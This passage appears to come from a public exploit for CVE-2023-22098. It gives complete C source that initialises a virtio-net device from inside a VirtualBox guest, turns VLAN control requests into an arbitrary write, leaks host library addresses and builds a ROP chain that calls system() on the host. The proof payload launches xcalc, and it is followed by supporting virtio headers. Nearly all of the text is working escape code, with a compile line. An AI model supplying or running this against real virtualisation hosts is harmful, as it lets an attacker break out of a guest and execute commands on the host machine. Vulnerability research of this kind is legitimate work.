    virtio_mmio = mmio_init((void *)0, VIRTIO_NET_SIZE, "/sys/devices/pci0000:00/0000:00:08.0/resource2");
    printf("[*] virtio_mmio: %p\n", virtio_mmio);

    // init pmio
    if (iopl(3) == -1) {
        perror("[-] iopl failed");
        exit(EXIT_FAILURE);
    }

    struct virtio_pci_cap *cap = NULL;
    uint8_t *config = malloc(0x1000);
    int fd = open("/sys/devices/pci0000:00/0000:00:08.0/config", O_RDONLY);
    if(fd < 0){
        perror("[-] failed to open virtio-net config.");
    }
    int bytes_read = read(fd, config, 0x1000);
    if(bytes_read <= 0){
        perror("[-] failed to read virtio-net config.");
    }
    close(fd);

    uint8_t cap_ptr = config[0x34];
    while(cap_ptr != 0){
        if(config[cap_ptr] != 0x9) { // vndr
            cap_ptr = config[cap_ptr+1]; // next
            continue;
        }
        cap = (struct virtio_pci_cap *)&config[cap_ptr];
        //print_cap(cap);
        switch(cap->cfg_type){
            case VIRTIO_PCI_CAP_COMMON_CFG:
                common_cfg = (struct virtio_pci_common_cfg *)(virtio_mmio + cap->offset);
                printf("[*] common_cfg: %p\n", common_cfg);
                break;
            case VIRTIO_PCI_CAP_NOTIFY_CFG:
                virtio_notify_mmio = virtio_mmio + cap->offset;
                notify_cap = (struct virtio_pci_notify_cap *)virtio_notify_mmio;
                printf("[*] virtio_notify_mmio: %p\n", virtio_notify_mmio);
                break;
            case VIRTIO_PCI_CAP_DEVICE_CFG:
                net_cfg = (struct virtio_net_config *)(virtio_mmio + cap->offset);
                printf("[*] net_cfg: %p\n", net_cfg);
                //print_net_ctf(net_cfg);
        }
        cap_ptr = cap->cap_next;
    }
    free(config);
    config = NULL;

    uint32_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    virtio_notify_addr = virtio_notify_mmio + notify_off*VIRTIO_NOTIFY_OFFSET_MULTIPLIER;

    /* reset device */
    uint8_t device_status = 0;
    // 1. qvirtio_reset
    mmio_write8(&common_cfg->device_status, device_status);
    // 2. qvirtio_set_acknowledge
    device_status |= VIRTIO_CONFIG_S_ACKNOWLEDGE;
    mmio_write8(&common_cfg->device_status, device_status);
    // 3. qvirtio_set_driver
    device_status |= VIRTIO_CONFIG_S_DRIVER;
    mmio_write8(&common_cfg->device_status, device_status);
    // 4. qvirtio_set_features
    uint32_t feature = SetBit(VIRTIO_NET_F_CTRL_VQ)|SetBit(VIRTIO_NET_F_CTRL_VLAN);
    mmio_write32(&common_cfg->guest_feature_select, 0); // low 32 bit
    mmio_write32(&common_cfg->guest_feature, feature);
    mmio_write32(&common_cfg->guest_feature_select, 1); // high 32 bit
    mmio_write32(&common_cfg->guest_feature, 0);
    // 5. qvirtio_set_features_ok
    device_status |= VIRTIO_CONFIG_S_FEATURES_OK;
    mmio_write8(&common_cfg->device_status, device_status);
    assert(mmio_read8(&common_cfg->device_status) & VIRTIO_CONFIG_S_FEATURES_OK);

    // 6. init virtqueues
    /*
        0
        receiveq1
        1
        transmitq1
        …
        2(N-1)
        receiveqN
        2(N-1)+1
        transmitqN
        2N
        controlq

        N=1 if VIRTIO_NET_F_MQ is not negotiated, otherwise N is set by max_virtqueue_pairs.
        controlq only exists if VIRTIO_NET_F_CTRL_VQ set.
    */
    vqs.N = mmio_read16(&net_cfg->max_virtqueue_pairs);
    printf("[*] vqs.N = %d\n", vqs.N);
    vqs.receiveq = calloc(vqs.N, sizeof(struct vring));
    vqs.transmitq = calloc(vqs.N, sizeof(struct vring));
    vqs.controlq = calloc(1, sizeof(struct vring));

    vq_mem = mmap(0, PAGE_SIZE*(vqs.N*2+1), PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)vq_mem, 0, PAGE_SIZE*(vqs.N*2+1));
    printf("[*] vq_mem: %p, size: %#x\n", vq_mem, PAGE_SIZE*(vqs.N*2+1));
    recvq_mem = mmap(0, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_ANON, -1, 0);
    memset((void *)recvq_mem, 0, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE);
    printf("[*] recvq_mem: %p, size: %#x\n", recvq_mem, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE);

    uint8_t *p_vq = (uint8_t *)vq_mem;
    for (size_t i = 0; i < vqs.N; i++) {
        vring_init(&vqs.receiveq[i], VIRTIO_QUEUE_SIZE, p_vq, 2*i);
        for (size_t j = 0; j < VIRTIO_QUEUE_SIZE; j++) {
            vqs.receiveq[i].desc[j].addr = gva_to_gpa((void *)recvq_buf(j));
            vqs.receiveq[i].desc[j].len = VIRTIO_NET_RECVQ_BUF_SIZE;
            vqs.receiveq[i].desc[j].flags = 0;
            vqs.receiveq[i].desc[j].next = (j+1)%VIRTIO_QUEUE_SIZE;
        }
        p_vq += PAGE_SIZE;

        vring_init(&vqs.transmitq[i], VIRTIO_QUEUE_SIZE, p_vq, 2*i+1);
        p_vq += PAGE_SIZE;
    }
    vring_init(vqs.controlq, VIRTIO_QUEUE_SIZE, p_vq, 2*vqs.N);

    // 7. qvirtio_set_driver_ok
    device_status |= VIRTIO_CONFIG_S_DRIVER_OK;
    mmio_write8(&common_cfg->device_status, device_status);

    printf("[*] virtio-net init done!\n");
}

void vrtio_net_ctrl_vlan_req(uint8_t command, uint16_t uVlanId) {
    struct virtio_net_ctrl_vlan *req = (struct virtio_net_ctrl_vlan *)(data_mem + 0x100*avail_idx);
    req->hdr.class = VIRTIO_NET_CTRL_VLAN;
    req->hdr.command = command;
    req->uVlanId = uVlanId;

    // struct virtio_net_ctrl_vlan
    vqs.controlq->desc[0].addr = gva_to_gpa(req);
    vqs.controlq->desc[0].len = sizeof(struct virtio_net_ctrl)+sizeof(struct virtio_net_ctrl_vlan)+1;
    vqs.controlq->desc[0].flags = VRING_DESC_F_NEXT;
    vqs.controlq->desc[0].next = 1;

    // u8 ack
    vqs.controlq->desc[1].addr = gva_to_gpa(req + sizeof(struct virtio_net_ctrl_vlan));
    vqs.controlq->desc[1].len = 1;
    vqs.controlq->desc[1].flags = VRING_DESC_F_WRITE;
    vqs.controlq->desc[1].next = 0;

    vqs.controlq->avail->ring[avail_idx] = 0;
    vqs.controlq->avail->idx = (avail_idx+1) % (VIRTIO_QUEUE_SIZE/2);
    vqs.controlq->avail->flags = VRING_AVAIL_F_NO_INTERRUPT;
    avail_idx = (avail_idx+1) % (VIRTIO_QUEUE_SIZE/2);
    __sync_synchronize();
    // notify
    mmio_write16(virtio_notify_addr, 2*vqs.N);
    sleep(0.5);
}

#define OFF_ABWRITE_BASE 0x10a4
void write8(uint16_t addr, uint8_t data) {
    uint16_t off = addr - OFF_ABWRITE_BASE;

    // init vq
    for (size_t i = 0; i < 8; i++) {
        if (isBitSet(data, i))
            vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_ADD, (off*8)+i);
        else
            vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_DEL, (off*8)+i);
    }
    //printf("[+] write8(%#x, %#x);\n", addr, data);
}
void write16(uint16_t addr, uint16_t data) {
    write8(addr, data&0xff);
    write8(addr+1, data>>8);
}
void write32(uint16_t addr, uint32_t data) {
    write16(addr, data&0xffff);
    write16(addr+2, data>>16);
}
void write64(uint16_t addr, uint64_t data) {
    write32(addr, data&0xffffffff);
    write32(addr+4, data>>32);
}

uint16_t leak16(uint16_t vq_idx, uint8_t off) {
    uint16_t    off_pDevInsR3 = 0x2300,
                off_pVirtio = 0x21c0,
                off_uPciCfgDataOff = 0x28c7,
                off_uLength = 0x24cc,
                off_uOffset = 0x24c8,
                off_cbMmio = 0x28e6,
                off_uVirtqSelect = 0x28ca;

    write8(off_uPciCfgDataOff, 0xfc); // uAddress == pVirtio->uPciCfgDataOff = 0xfc
    write8(off_uLength, 2); // pPciCap->uLength = 2
    write8(off_uOffset, off); // pPciCap->uOffset = 0x1e
    write8(off_cbMmio, 0xff); // pVirtio->LocCommonCfgCap.cbMmio = 0xff
    write16(off_uVirtqSelect, vq_idx); // pVirtio->uVirtqSelect = vq_idx
    vrtio_net_ctrl_vlan_req(VIRTIO_NET_CTRL_VLAN_ADD, ((off_pDevInsR3-OFF_ABWRITE_BASE)*8)+4); // pDevInsR3 += 0x10
    return inw(0xCFC);
}

int main() {
    init_virtio();

    uint64_t    vboxdd_base = 0,
                writable_base = 0;

    // leak VBoxDD.so
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_notify_off); // uNotifyOffset
    vboxdd_base <<=16;
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_enable); // uEnable
    vboxdd_base <<=16;
    vboxdd_base |= leak16(4, &((struct virtio_pci_common_cfg *)0)->queue_msix_vector); // uMsixVector
    vboxdd_base -= 0x370df7; // virtioR3PciConfigRead
    printf("[+] leak vboxdd_base = %#lx\n", vboxdd_base);

    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_notify_off);
    writable_base <<=16;
    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_enable);
    writable_base <<=16;
    writable_base |= leak16(0, &((struct virtio_pci_common_cfg *)0)->queue_msix_vector);
    printf("[+] leak writable_base = %#lx\n", writable_base);

    uint64_t push_rax_pop_rsp_pop_rbp = vboxdd_base + 0x00000000004d1a2f, // push rax ; pop rsp ; nop ; pop rbp ; ret
             gadget1 = vboxdd_base + 0x00000000001c9076, // mov rax, qword ptr [rbp - 0x18] ; pop rbp ; ret
             gadget2 = vboxdd_base + 0x0000000000108b2c, // sub rdx, rax ; mov rax, rdx ; pop rbp ; ret
             gadget3 = vboxdd_base + 0x0000000000330d28, // push rax ; pop rdx ; mov eax, 0 ; leave ; ret
             gadget4 = vboxdd_base + 0x00000000000656a0, // add rax, rdx ; pop rbp ; ret
             call_rax = vboxdd_base + 0x0000000000037014, // call rax
             prdi = vboxdd_base + 0x0000000000204810,
             prdx = vboxdd_base + 0x0000000000038942,
             prax = vboxdd_base + 0x0000000000402adf;
    uint64_t ftell_got = vboxdd_base + 0x7B4018;
    uint16_t off_pDevInsR3 = 0x2300,
             off_pfnConfigRead = 0x2318,
             off_ROP = 0x1500,
             off_cmd = 0x1700;
    char *cmd = "/usr/bin/xcalc";

    uint64_t ROP[] = {
        ftell_got + 0x18, // rbp
        gadget1, // mov rax, qword ptr [rbp - 0x18] ; pop rbp ; ret
        writable_base + off_ROP + 8*4, // rbp
        gadget3, // push rax ; pop rdx ; mov eax, 0 ; leave ; ret
        0, // rbp
        prax, 0x830f0, // ftell - libc_base
        gadget2, // sub rdx, rax ; mov rax, rdx ; pop rbp ; ret
        0, // rbp
        prdx, 0x52290, // system - libc_base
        gadget4, // add rax, rdx ; pop rbp ; ret
        0, // rbp
        prdi, writable_base + off_cmd,
        call_rax // system
    };

    for (size_t i = 0; i < sizeof(ROP); i++) {
        write64(off_ROP+i*8, ROP[i]);
    }
    for (size_t i = 0; i < strlen(cmd); i++) {
        write8(off_cmd+i, cmd[i]);
    }
    write64(off_pDevInsR3, writable_base + off_ROP);
    write64(off_pfnConfigRead, push_rax_pop_rsp_pop_rbp);
    inw(0xCFC);

    munmap((void *)virtio_mmio, VIRTIO_NET_SIZE);
    munmap((void *)vq_mem, PAGE_SIZE*(vqs.N*2+1));
    munmap((void *)recvq_mem, VIRTIO_NET_RECVQ_BUF_SIZE*VIRTIO_QUEUE_SIZE);
    return 0;
}

// gcc -o exp CVE-2023-22098.exp.c
```

## virtio-net.h

```c
#include "virtio-pci.h"

/* The feature bitmap for virtio net */
#define VIRTIO_NET_F_CSUM       0       /* Host handles pkts w/ partial csum */
#define VIRTIO_NET_F_GUEST_CSUM 1       /* Guest handles pkts w/ partial csum */
#define VIRTIO_NET_F_MTU        3       /* Initial MTU advice */
#define VIRTIO_NET_F_MAC        5       /* Host has given MAC address. */
#define VIRTIO_NET_F_GSO        6       /* Host handles pkts w/ any GSO type */
#define VIRTIO_NET_F_GUEST_TSO4 7       /* Guest can handle TSOv4 in. */
#define VIRTIO_NET_F_GUEST_TSO6 8       /* Guest can handle TSOv6 in. */
#define VIRTIO_NET_F_GUEST_ECN  9       /* Guest can handle TSO[6] w/ ECN in. */
#define VIRTIO_NET_F_GUEST_UFO  10      /* Guest can handle UFO in. */
#define VIRTIO_NET_F_HOST_TSO4  11      /* Host can handle TSOv4 in. */
#define VIRTIO_NET_F_HOST_TSO6  12      /* Host can handle TSOv6 in. */
#define VIRTIO_NET_F_HOST_ECN   13      /* Host can handle TSO[6] w/ ECN in. */
#define VIRTIO_NET_F_HOST_UFO   14      /* Host can handle UFO in. */
#define VIRTIO_NET_F_MRG_RXBUF  15      /* Driver can merge receive buffers. */
#define VIRTIO_NET_F_STATUS     16      /* Configuration status field is available. */
#define VIRTIO_NET_F_CTRL_VQ    17      /* Control channel is available. */
#define VIRTIO_NET_F_CTRL_RX    18      /* Control channel RX mode support. */
#define VIRTIO_NET_F_CTRL_VLAN  19      /* Control channel VLAN filtering. */
#define VIRTIO_NET_F_GUEST_ANNOUNCE 21  /* Driver can send gratuitous packets. */

#define SetBit(_i) (1<<_i)

struct virtio_net_config { 
    u8 mac[6]; 
    le16 status; 
    le16 max_virtqueue_pairs;
    le16 mtu; 
};

struct virtqueues {
    unsigned int N;
    struct vring *receiveq;
    struct vring *transmitq;
    struct vring *controlq;
};

/*
Packets are transmitted by placing them in the transmitq1…transmitqN,
and buffers for incoming packets are placed in the receiveq1…receiveqN.
In each case, the packet itself is preceded by a header:
*/
struct virtio_net_hdr { 
#define VIRTIO_NET_HDR_F_NEEDS_CSUM    1 
#define VIRTIO_NET_HDR_F_DATA_VALID    2 
#define VIRTIO_NET_HDR_F_RSC_INFO      4 
        u8 flags; 
#define VIRTIO_NET_HDR_GSO_NONE        0 
#define VIRTIO_NET_HDR_GSO_TCPV4       1 
#define VIRTIO_NET_HDR_GSO_UDP         3 
#define VIRTIO_NET_HDR_GSO_TCPV6       4 
#define VIRTIO_NET_HDR_GSO_ECN      0x80 
        u8 gso_type; 
        le16 hdr_len; 
        le16 gso_size; 
        le16 csum_start; 
        le16 csum_offset; 
        le16 num_buffers; 
};

/*
The driver uses the control virtqueue (if VIRTIO_NET_F_CTRL_VQ is negotiated)
to send commands to manipulate various features of the device
which would not easily map into the configuration space.
*/
struct virtio_net_ctrl { 
        u8 class; 
        u8 command; 
        // u8 data[];
        // u8 ack;
};
 
/* ack values */ 
#define VIRTIO_NET_OK     0 
#define VIRTIO_NET_ERR    1

/* VLAN Filtering */
#define VIRTIO_NET_CTRL_VLAN       2 
 #define VIRTIO_NET_CTRL_VLAN_ADD             0 
 #define VIRTIO_NET_CTRL_VLAN_DEL             1

 /* Automatic receive steering in multiqueue mode */
 struct virtio_net_ctrl_mq { 
        le16 virtqueue_pairs; 
}; 
 
/* Both the VIRTIO_NET_CTRL_VLAN_ADD and VIRTIO_NET_CTRL_VLAN_DEL command
   take a little-endian 16-bit VLAN id as the command-specific-data. */
#define VIRTIO_NET_CTRL_VLAN       2 
 #define VIRTIO_NET_CTRL_VLAN_ADD             0 
 #define VIRTIO_NET_CTRL_VLAN_DEL             1

  struct virtio_net_ctrl_vlan { 
        struct virtio_net_ctrl hdr;
        u16 uVlanId;
}; 
```

## virtio-pci.h

```c
typedef uint8_t     u8;
typedef uint16_t    u16;
typedef uint32_t    u32;
typedef uint64_t    u64;
typedef uint16_t    le16;
typedef uint32_t    le32;
typedef uint64_t    le64;

/* Status byte for guest to report progress, and synchronize features. */
/* We have seen device and processed generic fields (VIRTIO_CONFIG_F_VIRTIO) */
#define VIRTIO_CONFIG_S_ACKNOWLEDGE     1
/* We have found a driver for the device. */
#define VIRTIO_CONFIG_S_DRIVER          2
/* Driver has used its parts of the config, and is happy */
#define VIRTIO_CONFIG_S_DRIVER_OK       4
/* Driver has finished configuring features */
#define VIRTIO_CONFIG_S_FEATURES_OK     8
/* We've given up on this device. */
#define VIRTIO_CONFIG_S_FAILED          0x80

/* Virtio feature flags used to negotiate device and driver features. */
/* Can the device handle any descriptor layout? */
#define VIRTIO_F_ANY_LAYOUT             27
/* v1.0 compliant. */
#define VIRTIO_F_VERSION_1              32
#define VIRTIO_F_IOMMU_PLATFORM         33

#define MAX_QUEUE_NUM      (256)

#define VRING_DESC_F_NEXT  1
#define VRING_DESC_F_WRITE 2

#define VRING_AVAIL_F_NO_INTERRUPT 1

#define VRING_USED_F_NO_NOTIFY     1

#ifndef VIRTIO_QUEUE_SIZE
   #define VIRTIO_QUEUE_SIZE 0x10
#endif

struct vring_desc {
  u64 addr;
  u32 len;
  u16 flags;
  u16 next;
};

struct vring_avail {
  u16 flags;
  u16 idx;
  u16 ring[VIRTIO_QUEUE_SIZE];
};

struct vring_used_elem {
  u32 id;
  u32 len;
};

struct vring_used {
  u16 flags;
  u16 idx;
  struct vring_used_elem ring[VIRTIO_QUEUE_SIZE];
};

struct vring {
   unsigned int num;
   struct vring_desc *desc;
   struct vring_avail *avail;
   struct vring_used *used;
};

/** Page shift */
#define PAGE_SHIFT 12

/** Page size */
#define PAGE_SIZE ( 1 << PAGE_SHIFT )

/** Page mask */
#define PAGE_MASK ( PAGE_SIZE - 1 )

#define vring_size(num) \
   (((((sizeof(struct vring_desc) * num) + \
      (sizeof(struct vring_avail) + sizeof(u16) * num)) \
         + PAGE_MASK) & ~PAGE_MASK) + \
         (sizeof(struct vring_used) + sizeof(struct vring_used_elem) * num))

/* PCI capability types: */
#define VIRTIO_PCI_CAP_COMMON_CFG       1  /* Common configuration */
#define VIRTIO_PCI_CAP_NOTIFY_CFG       2  /* Notifications */
#define VIRTIO_PCI_CAP_ISR_CFG          3  /* ISR access */
#define VIRTIO_PCI_CAP_DEVICE_CFG       4  /* Device specific configuration */
#define VIRTIO_PCI_CAP_PCI_CFG          5  /* PCI configuration access */

/* This is the PCI capability header: */
struct virtio_pci_cap {
   u8 cap_vndr;    /* Generic PCI field: PCI_CAP_ID_VNDR */
   u8 cap_next;    /* Generic PCI field: next ptr. */
   u8 cap_len;     /* Generic PCI field: capability length */
   u8 cfg_type;    /* Identifies the structure. */
   u8 bar;         /* Where to find it. */
   u8 padding[3];  /* Pad to full dword. */
   le32 offset;    /* Offset within bar. */
   le32 length;    /* Length of the structure, in bytes. */
};

#define VIRTIO_NOTIFY_OFFSET_MULTIPLIER     2                    /**< VirtIO Notify Cap. MMIO config param     */

struct virtio_pci_notify_cap {
   struct virtio_pci_cap cap;
   le32 notify_off_multiplier; /* Multiplier for queue_notify_off. */
};

/* Fields in VIRTIO_PCI_CAP_COMMON_CFG: */
struct virtio_pci_common_cfg {
   /* About the whole device. */
   le32 device_feature_select; /* read-write */
   le32 device_feature;        /* read-only */
   le32 guest_feature_select;  /* read-write */
   le32 guest_feature;         /* read-write */
   le16 msix_config;           /* read-write */
   le16 num_queues;            /* read-only */
   u8 device_status;           /* read-write */
   u8 config_generation;       /* read-only */

      /* About a specific virtqueue. */
   le16 queue_select;          /* read-write */
   le16 queue_size;            /* read-write, power of 2. */
   le16 queue_msix_vector;     /* read-write */
   le16 queue_enable;          /* read-write */
   le16 queue_notify_off;      /* read-only */
   le32 queue_desc_lo;         /* read-write */
   le32 queue_desc_hi;         /* read-write */
   le32 queue_avail_lo;        /* read-write */
   le32 queue_avail_hi;        /* read-write */
   le32 queue_used_lo;         /* read-write */
   le32 queue_used_hi;         /* read-write */
};
```

